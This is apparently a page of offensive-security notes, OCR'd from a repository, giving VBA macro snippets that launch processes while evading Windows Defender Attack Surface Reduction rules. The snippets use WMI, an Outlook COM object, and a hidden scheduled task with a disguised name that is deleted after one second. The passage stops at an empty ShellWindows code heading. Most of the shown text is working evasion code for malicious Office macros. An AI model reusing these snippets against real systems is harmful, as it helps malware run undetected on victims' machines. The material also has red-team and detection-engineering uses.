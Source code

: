  * <details><summary>Exec process using WMI (Click to expand)</summary><p>

	```
	' Exec process using WMI
	Function WmiExec(targetPath as String) As Integer
	    Set objWMIService = GetObject("winmgmts:\\.\root\cimv2")
	    Set objStartup = objWMIService.Get("Win32_ProcessStartup")
	    Set objConfig = objStartup.SpawnInstance_
	    set objProcess = GetObject("winmgmts:\\.\root\cimv2:Win32_Process")
	    WmiExec = objProcess.Create(targetPath, Null, objConfig, intProcessID)
	end Function
	```
* Outlook COM Object
	* References
		* [https://blog.sevagas.com/IMG/pdf/bypass_windows_defender_attack_surface_reduction.pdf](https://blog.sevagas.com/IMG/pdf/bypass_windows_defender_attack_surface_reduction.pdf)
	* Overview
		* Parent process is outlook.exe
	* Code

		```
		' Start app via outlook
		Sub OutlookApplication(targetPath As String)
		    Set outlookApp = CreateObject("Outlook.Application")
		    outlookApp.CreateObject("Wscript.Shell").Run targetPath, 0
		End Sub
		```
* Task Scheduler
	* References
		* [https://blog.sevagas.com/IMG/pdf/bypass_windows_defender_attack_surface_reduction.pdf](https://blog.sevagas.com/IMG/pdf/bypass_windows_defender_attack_surface_reduction.pdf)
	* Overview
		* ASR bypass
	* Code

		```
		' Execute a command via Sheduler
		Sub SchedulerExec(targetPath as String)
		    Set service = CreateObject("Schedule.Service")
		    ' Add an action to the task
		    Dim Action
		    Set Action = taskDefinition.Actions.Create(ActionTypeExec)
		    Action.arguments = GetArguments(targetPath)
		    Action.HideAppWindow = True
		    ' Register (create) the task
		    Call rootFolder.RegisterTaskDefinition("System Timer T", taskDefinitions, 6, , , 3)
		    ' Wait one sec
		    Application.Wait Now + TimeValue("0:00:01")
		    ' Delete task
		    Call rootFolder.DeleteTask("System Timer T", 0)
		End Sub
		```
* ShellWindows (CLSID: 9BA05972-F6A8-11CF-A442-00A0C90A8F39)
	* References
		* [https://blog.sevagas.com/IMG/pdf/bypass_windows_defender_attack_surface_reduction.pdf](https://blog.sevagas.com/IMG/pdf/bypass_windows_defender_attack_surface_reduction.pdf)
	* Overview
		* NoProgID so must be called with CLSID
		* Parent process is explorer.exe
		* ASR Bypass
	* Code
